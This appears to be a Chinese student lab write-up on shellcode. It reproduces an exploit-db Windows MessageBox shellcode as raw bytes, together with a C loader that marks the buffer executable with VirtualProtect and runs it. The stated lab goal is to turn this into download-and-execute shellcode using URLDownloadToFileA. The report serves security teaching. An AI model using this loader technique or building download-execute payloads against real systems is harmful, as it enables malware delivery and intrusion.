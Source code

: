 # shellcode
## 实验目的
* [x] 详细阅读 https://www.exploit-db.com/shellcodes 中的 shellcode。建议找不同功能、不同平台的 3-4 个 shellcode 解读
* [x] 修改示例代码的 shellcode，将其功能改为下载执行，也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows 系统中最简单的下载一个文件的 API 是URLDownloadToFileA
## 实验过程
* [Windows/x64 - Dynamic MessageBoxA or MessageBoxW PEB & Import Table Method Shellcode (232 bytes)](https://www.exploit-db.com/shellcodes/48229)
```
# Shellcode Title:  Windows\x64 Dynamic MessageBoxA or MessageBoxW PEB & Import Table Method Shellcode (232 bytes)
# Shellcode Author: Bobby Cooke
# Date: March 2020-03-17
# Tested On: 
# Windows 10 Pro 1909 (x86): HelpPane.exe, notepad.exe, certutil.exe
# Windows 10 Pro 1909 (x86_64): mmc.exe, xwizard.exe  
# [!] Will only work if MessageBoxA or MessageBoxW exist in the Import Table of the Host PE
```
```c
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x55\x89\xe5\x83\xec\x10\x31\xc9\xf7\xe1\x89\xc3\x64\x8b\x5b\x30\x8b\x5b"
"\x08\x53\x58\x03\x43\x3c\xb2\x80\x66\x01\xd0\x8b\x10\x01\xda\x80\xc2\x0c"
"\x66\xb9\x33\x32\x51\x68\x55\x53\x45\x52\x89\x65\xfc\x31\xc9\x52\x31\xc0"
"\xb0\x14\xf6\xe1\x01\x04\x24\x58\x50\x8b\x75\xfc\x8b\x38\x01\xdf\x51\x31"
"\xc9\xfc\xb1\x06\xf3\xa6\x59\x74\x04\x58\x41\xeb\xde\x58\x89\x45\xf8\x2c"
"\x0c\x8b\x00\x01\xd8\x89\x45\xf4\xb9\x6f\x6f\x78\x41\xc1\xe9\x08\x51\x68"
"\x61\x67\x65\x42\x68\x4d\x65\x73\x73\xeb\x08\xc6\x44\x24\x0a\x57\x8b\x45"
"\xf4\x31\xc9\x89\xe6\x31\xd2\x8b\x38\x39\xd7\x74\xec\x01\xdf\x47\x47\x51"
"\x31\xc9\xfc\xb1\x0b\xf3\xa6\x59\x74\x07\xb2\x04\x01\xd0\x41\xeb\xe0\x8b"
"\x45\xf8\x04\x04\x8b\x38\x01\xdf\x31\xc0\xb0\x04\x66\xf7\xe1\x01\xf8\x8b"
"\x00\x8a\x5c\x24\x0a\x31\xc9\x51\x80\xfb\x41\x74\x18\x68\x4b\x2d\x55\x2d"
"\x68\x42\x2d\x4f\x2d\x89\xe2\x42\x88\x2a\x42\x41\x80\xf9\x04\x74\x07\xeb"
"\xf4\x68\x42\x4f\x4b\x55\x31\xc9\x89\xe3\x51\x53\x53\x51\xff\xd0";

int main(int argc, char **argv)
{
  int (*func)();
   DWORD dwOldProtect;
    VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
  func = (int(*)()) code;
  (int)(*func)();
}
```
* 源码运行时如图
![](images/13.png)
* 此时跳转到反汇编会看到报错
![](images/14.png)
* 用之前学过的`VirtualProtect`修改后可以成功运行，如图
![](images/15.png)
* 此时再跳转到反汇编，如下图
![](images/16.png)
可以发现这个时候和源码的汇编部分是不一样的，但是字节码部分是一样的。如果我们是在C语言中编写调用WinExec函数，那个call之后的WinExec函数的地址，是编译器帮我们在可执行程序的导入表中导入了。在进程初始化的过程中，系统会帮我们计算好WinExec函数的地址，然后把函数地址放在导入表中指定的位置。也就是说，shellcode，其实在一个进程初始化的过程中，代替操作系统在干的事情——API函数的动态链接。也就是找到需要调用的API函数的地址。
Shellcode实际是一段代码(也可以是填充数据)，可以用来发送到服务器，利用已存在的特定漏洞造成溢出，通称“缓冲区溢出攻击”中植入进程的代码。这段代码可以是导致常见的恶作剧目的的弹出一个消息框弹出，也可以用来删改重要文件、窃取数据、上传木马病毒并运行，甚至是出于破坏目的的格式化硬盘等等。


